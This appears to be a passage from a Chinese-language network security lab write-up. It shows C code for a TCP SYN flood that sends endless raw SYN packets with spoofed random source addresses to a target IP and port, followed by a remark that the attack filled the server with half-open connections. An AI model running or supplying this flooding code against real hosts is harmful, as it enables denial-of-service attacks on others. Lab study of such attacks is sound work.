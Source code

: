 ```c
    close(sock);
}

int main()
{
    char buffer[PACKET_LEN];
    struct ipheader *ip = (struct ipheader *)buffer;
    struct tcpheader *tcp = (struct tcpheader *)(buffer + sizeof(struct ipheader));
    
    srand(time(0));
    while(1)
    {
        memset(buffer, 0, PACKET_LEN);
        
        tcp->tcp_sport = rand();
        tcp->tcp_dport = htons(DEST_PORT);
        tcp->tcp_seq = rand();
        tcp->tcp_offx2 = 0x50;
        tcp->tcp_flags = TH_SYN;
        tcp->tcp_win = htons(20000);
        tcp->tcp_sum = 0;
        
        ip->iph_ver = 4;
        ip->iph_ihl = 5;
        ip->iph_ttl = 50;
        ip->iph_sourceip.s_addr = rand();
        ip->iph_destip.s_addr = inet_addr(DEST_IP);
        ip->iph_protocol = IPPROTO_TCP;
        ip->iph_len = htons(sizeof(struct ipheader) + sizeof(struct tcpheader));
        
        tcp->tcp_sum = calculate_tcp_checksum(ip);
        
        send_raw_ip_packet(ip);
    }
    
    return 0;
}
```
实验一：  
把上面第四步改成：  
![tcp泛洪攻击](../img/tcp-syn-flooding.png)
会发现服务端也是大量SYN_RECV，宿主机telnet服务器超时，实验成功
